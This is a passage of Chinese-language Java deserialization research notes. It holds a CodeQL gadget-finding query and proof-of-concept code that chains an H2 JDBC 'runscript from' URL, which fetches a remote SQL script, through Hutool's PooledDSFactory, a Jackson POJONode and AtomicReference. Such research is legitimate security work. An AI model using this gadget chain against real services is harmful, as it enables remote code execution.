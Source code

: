 ```java
    (a.getDeclaringType().getASupertype*() instanceof TypeSerializable or a.isStatic()) and
    (b.getDeclaringType().getASupertype*() instanceof TypeSerializable or b.isStatic()) 
}

from Source source, Sink sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()
```

![image-20241214002242218](https://cocr-obsidian.oss-cn-beijing.aliyuncs.com/_typora_image/image-20241214002242218.png)

AtomicReference  这个类的toString方法，会调用自身value属性的toString。


```java
String url = "jdbc:h2:mem:test;init=runscript from 'http://localhost:7777/poc.sql'";
Setting setting = new Setting();
setting.set("url",url);
PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);

//  pooledDSFactory.getDataSource();
ClassPool classPool = ClassPool.getDefault();
ClassPool.getDefault().appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(ctMethod);
ctClass.toClass();

POJONode pojoNode = new POJONode(pooledDSFactory);

//   pojoNode.toString();
Object object = new AtomicReference<>(pojoNode);
//   object.toString();

JSONObject jsonObject = new JSONObject();
jsonObject.put("aaa",object);
```

## unsafe.allocateInstance

PooledDSFactory pooledDSFactory = new PooledDSFactory(setting);

这样实例化出来的 pooledDSFactory 是无法被序列化的。

Unsafe中提供allocateInstance方法，仅通过Class对象就可以创建此类的实例对象，而且不需要调用其构造函数、初始化代码、JVM安全检查等

## writeMapBegin
